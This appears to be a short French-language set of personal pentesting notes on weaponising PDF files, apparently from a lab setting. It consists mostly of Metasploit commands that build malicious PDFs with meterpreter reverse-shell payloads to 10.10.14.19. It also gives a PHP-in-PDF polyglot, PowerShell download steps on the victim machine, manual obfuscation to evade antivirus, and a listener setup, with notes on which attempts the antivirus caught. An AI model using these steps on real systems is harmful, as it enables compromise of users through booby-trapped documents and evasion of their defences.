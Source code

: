 ## pdf
=========================================================================================================
https://www.digital.security/fr/blog/contourner-la-detection-av-sur-un-exploit-pdf
https://null-byte.wonderhowto.com/how-to/hack-like-pro-embed-backdoor-connection-innocent-looking-pdf-0140942/

==================
$ cat bad.pdf.php 
%PDF-1.5
<?php phpinfo(); ?>


======================================
tentative de pdf malicieu:

use exploit/windows/fileformat/adobe_pdf_embedded_exe
set payload windows/meterpreter/reverse_tcp
set FILENAME documentation.pdf
set LHOST 10.10.14.19
set LPORT 80
run

#sur la machine victime:
iwr http://10.10.14.19:8000/documentation.pdf -outfile documentation.pdf
#pdf sur la machine mais pas de reverse shell
=======================================


use exploit/windows/fileformat/adobe_utilprintf
set FILENAME doc2.pdf
set PAYLOAD windows/exec
set CMD 'c:\tmp\bouf.exe 10.10.14.19 80 -e powershell.exe'
exploit

#sur la machine victime:
iwr http://10.10.14.19:8000/doc2.pdf -outfile documentation2.pdf
#doc posé mais shooté par l'AV


========================================

#creation pdf
use exploit/windows/fileformat/adobe_cooltype_sing
set OUTPUTPATH .
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.19
set lport 80
run

obfuscation:
pdftk doc3.pdf output doc3unc.pdf uncompress #decompression
strings doc3unc.pdf |grep var #vue de l'exploit en js
#modfi a la main des strings hors js
iwr http://10.10.14.19:8000/doc3.pdf -outfile documentation3.pdf

#shooté par l'AV

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.19
set lport 80
run

